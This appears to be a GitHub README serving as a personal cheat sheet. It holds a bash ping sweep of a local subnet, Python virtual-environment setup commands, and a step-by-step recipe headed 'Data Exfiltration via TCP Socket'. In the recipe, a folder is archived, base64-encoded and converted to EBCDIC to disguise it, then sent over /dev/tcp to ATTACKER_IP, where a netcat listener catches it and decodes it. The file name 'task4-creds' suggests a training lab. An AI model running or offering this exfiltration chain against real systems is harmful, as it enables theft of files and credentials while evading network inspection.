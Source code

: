# knowledge-db
Various commands, scripts and how-to documents

### Bash Ping Sweep 🛰️
---
    subnet="192.168.1"; for ip in {1..254}; do ping -c 1 -W 1 "${subnet}.${ip}" > /dev/null 2>&1 && echo "Host ${subnet}.${ip} is up" || echo "Host ${subnet}.${ip} is down"; done

### Python Virtual Environment 🦾
---
Go to your project folder and run:

    python3 -m venv venv
    source ./venv/bin/activate
    deactivate

### Data Exfiltration via TCP Socket 👀
---
Exfiltrate data over TCP using data encoding. 

- attackerMachine - listen & safe
   - ```nc -lvp 8080 > /tmp/task4-creds.data```

- victimMachine - zip & convert & send via TCP
   - ```tar zcf - folderToZip/ | base64 | dd conv=ebcdic > /dev/tcp/ATTACKER_IP/8080```

- attackerMachine - convert 
   - ```dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar```
- unzip
   - ```tar xvf task4-creds.tar```

